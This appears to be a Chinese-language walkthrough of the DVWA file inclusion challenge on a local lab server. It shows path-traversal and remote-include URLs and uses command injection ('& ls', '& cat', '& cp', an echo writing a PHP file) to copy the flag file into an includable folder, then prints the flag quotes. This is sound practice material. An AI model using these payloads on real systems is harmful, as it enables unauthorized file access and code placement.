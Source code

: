 # File Inclusion

> Objective
>
>
> Read all five famous quotes from '[../hackable/flags/fi.php](http://localhost:8086/hackable/flags/fi.php)' using only the file inclusion.
>

### 觀察

```bash
[../hackable/flags/fi.php](http://localhost:8086/hackable/flags/fi.php)
```

```bash
http://localhost:8086/hackable/flags/fi.php
```

無法用之前的方法 include，不論是直接存取上上層或遠端載入，該怎麼辦 ? 😮‍💨

```bash
http://localhost:8086/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

```bash
localhost:8086/vulnerabilities/fi/?page=http://localhost:8086/hackable/flags/fi.php
```

先透過 command injection 偷看確認一下這題的檔案

```bash
& ls ../fi
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/fffcff98-2cc1-4a47-bb37-a6652531f014/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T120559Z&X-Amz-Expires=86400&X-Amz-Signature=992d3149d9c27d0d7c8f1e0e9fd8d760713763d80ba9574d44694265bedd92a8&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

其實這邊也可以都一隻 web shell 進去，方便瀏覽檔案，不過既然題目說要用 file inclusion，那就不用這招了

接著產生一隻檔案到 `vulnerabilities/fi` 裡測試看看

```bash
& echo "<?php phpinfo(); ?>" > ../fi/yo.php
```

```bash
http://localhost:8086/vulnerabilities/fi/yo.php
```

### Done

做到這邊突然想到，既然它只讀取 `fi` 資料夾的檔案，那我們直接把 `http://localhost:8086/hackable/flags/fi.php` 複製到`http://localhost:8086/vulnerabilities/fi/` 不就好了😹

當然你也可以產生一隻可以讀取任何檔案的 php file 在 `http://localhost:8086/vulnerabilities/fi/` 資料夾內，再讓它讀取任何檔案

```bash
& cp ../../hackable/flags/fi.php ../fi/
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/46b84263-c125-46a4-b391-5be6feee89d8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T120701Z&X-Amz-Expires=86400&X-Amz-Signature=70f37cca3eceed32c02651a654c9421874360d2b6789c189d856a09e02a51c44&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```bash
&ls ../fi
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/67a614cc-7c27-4be8-97e3-2b935844e0a9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T120719Z&X-Amz-Expires=86400&X-Amz-Signature=670fc99340e7edaef1869af60caf662ff7876d9f1fbabf09492b003a2b69b9fe&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
http://localhost:8086/vulnerabilities/fi/?page=fi.php
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/db4f7ecd-59a6-4721-9553-a152ce38e436/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T120749Z&X-Amz-Expires=86400&X-Amz-Signature=349d427a99c093de9683f2457c6d38eb8ec9fe59a46dd77e944c2039583c8188&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

接下來的流程就跟 low 一樣， `5.)` 從 page source 就能看到， `3.)` 從 command injection 用 cat 指令就能看到

```bash
&cat ../../hackable/flags/fi.php
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d19dc1b4-fa02-490c-9fc0-c35638154568/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T120816Z&X-Amz-Expires=86400&X-Amz-Signature=8341c089bd4cfc8b8512ab71fff1a4d3871554f6240dd946e7d449bec4c06c03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
1.) Bond. James Bond 
2.) My name is Sherlock Holmes. It is my business to know what other people don't know.
3.) Romeo, Romeo! Wherefore art thou Romeo?
4.) The pool on the roof must have a leak.
5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons.
```
